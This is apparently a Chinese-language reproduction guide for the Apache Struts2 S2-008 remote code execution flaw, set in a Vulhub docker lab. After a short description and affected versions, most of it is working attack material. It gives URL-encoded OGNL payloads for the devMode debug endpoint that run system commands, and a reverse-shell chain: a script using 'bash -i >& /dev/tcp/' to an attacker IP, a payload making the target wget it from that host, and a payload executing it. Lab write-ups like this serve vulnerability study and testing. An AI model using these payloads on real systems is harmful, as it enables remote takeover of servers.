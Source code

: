 # Struts2 S2-008 远程代码执行漏洞

## 漏洞描述

S2-008 涉及多个漏洞，Cookie 拦截器错误配置可造成 OGNL 表达式执行，但是由于大多 Web 容器（如 Tomcat）对 Cookie 名称都有字符限制，一些关键字符无法使用使得这个点显得比较鸡肋。另一个比较鸡肋的点就是在 struts2 应用开启 devMode 模式后会有多个调试接口能够直接查看对象信息或直接执行命令，正如 kxlzx 所提这种情况在生产环境中几乎不可能存在，因此就变得很鸡肋，但我认为也不是绝对的，万一被黑了专门丢了一个开启了 debug 模式的应用到服务器上作为后门也是有可能的。

参考文章：

-  http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html

漏洞详情:

- http://struts.apache.org/docs/s2-008.html

## 影响版本

影响版本: 2.1.0 - 2.3.1

## 环境搭建

Vulhub执行以下命令启动s2-008测试环境：

```
docker-compose build
docker-compose up -d
```

## 漏洞复现

在 devMode 模式下直接添加参数`?debug=command&expression=<OGNL EXP>`，会直接执行后面的 OGNL 表达式，因此可以直接执行命令（注意转义）。

```
http://your-ip:8080/S2-008/devmode.action?debug=command&expression=(%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23foo%3Dnew%20java.lang.Boolean%28%22false%22%29%20%2C%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3D%23foo%2C@java.lang.Runtime@getRuntime%28%29.exec%28%22open%20%2fApplications%2fCalculator.app%22%29)
```

### 反弹shell

编写shell脚本并启动http服务器：

```
echo "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1" > shell.sh
python3环境下：python -m http.server 80
```

上传shell.sh文件的命令为：

```
wget 192.168.174.128/shell.sh
```

上传shell.sh文件的Payload为：

```
http://your-ip:8080/S2-008/devmode.action?debug=command&expression=(%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23foo%3Dnew%20java.lang.Boolean%28%22false%22%29%20%2C%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3D%23foo%2C@java.lang.Runtime@getRuntime%28%29.exec%28%22wget%20192.168.174.128%2fshell.sh%22%29)
```

执行shell.sh文件的命令为：

```
bash /usr/local/tomcat/shell.sh
```

执行shell.sh文件的Payload为：

```
http://your-ip:8080/S2-008/devmode.action?debug=command&expression=(%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23foo%3Dnew%20java.lang.Boolean%28%22false%22%29%20%2C%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3D%23foo%2C@java.lang.Runtime@getRuntime%28%29.exec%28%22bash%20%2fusr%2flocal%2ftomcat%2fshell.sh%22%29)
```

成功接收反弹shell：

![image-20220301165140045](./images/202203011651129.png)

